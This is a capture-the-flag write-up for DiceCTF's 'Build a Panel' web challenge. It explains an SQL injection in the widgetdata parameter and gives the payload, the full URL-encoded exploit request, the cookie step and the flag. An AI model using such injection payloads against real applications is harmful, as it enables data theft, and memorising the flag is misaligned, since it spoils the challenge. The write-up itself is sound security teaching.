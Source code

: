 Build a Panel
===
**Category**: Web

**Points**: 130 (96 solves)

**Author**: Jim
### Description
- `You can never have too many widgets and BAP organization is the future. If you experience any issues, send it`
- Site: `https://build-a-panel.dicec.tf/`
- Source: `build-a-panel.tar.gz`
### Solution
- In file server.js, we can SQL injection here![image](https://user-images.githubusercontent.com/54855855/107372851-728a8580-6b18-11eb-832a-18464fd9105d.png)
- No query input parameters are sterilized so we can SQL injection like this

`panelid` = `test`,
`widgetname` = `test`,
`widgetdata` = `"' || (SELECT * FROM flag) '"`
### Payload
- Because GET method for `/admin/debug/add_widget` so we need url encode for `widgetdata`
`https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid=test&widgetname=test&widgetdata=%22%27%20%7C%7C%20%28SELECT%20%2A%20FROM%20flag%29%20%27%22`
- Load that url after change cookie `panelID` = `test` and load url `https://build-a-panel.dicec.tf/create`
- Flag in `widgets` in network ![image](https://user-images.githubusercontent.com/54855855/107376819-e9298200-6b1c-11eb-93f0-732bb165f953.png)
### Flag
`dice{ch41n_ChAIn_aNd_m0Re_cHaIn}`
